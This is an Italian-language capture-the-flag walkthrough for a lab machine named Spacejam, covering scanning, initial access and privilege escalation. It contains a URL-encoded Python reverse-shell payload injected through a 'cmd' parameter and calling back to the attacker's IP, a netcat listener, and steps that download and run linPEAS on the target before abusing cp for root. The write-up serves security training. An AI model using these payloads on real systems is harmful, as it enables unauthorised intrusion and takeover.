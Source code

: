 ### ENUM
partiamo con uno scan della macchina

```bash
nmap Spacejam.thm -sV -sC 
```

troviamo cosi la porta 3000 aperta(se non la trovate lanciate questo comando
```bash
nmap Spacejam.thm -sV -p-
```
mettiamoci in ascolto su una porta aperta da noi
```bash
nc -lvnp 4444
```

mandiamo una richiesta alla porta 3000 con una reverse shell
```bash
curl "Spacejam.thm:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ilvostroip>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"
```

ecco la nostra shell sul primo terminale
## privesc
mettiamo linPEAS sulla macchina (scaricatevelo prima!!)

apriamo un server http sulla nostra macchina dove è contenuto linPEAS
```bash
python -m http.server 80
```

facciamo una richiesta sulla shell otenuta prima tramite questo comando
```bash
wget http://ipvostro/linPEAS.sh
```

diamogli i giusti permessi
```bash
chmod +x linPEAS.sh
./linPEAS.sh
```

ecco la nostra vulnerabilità sul comando cp usiamo GTFO.BINS per capire che comando eseguire e siamo root

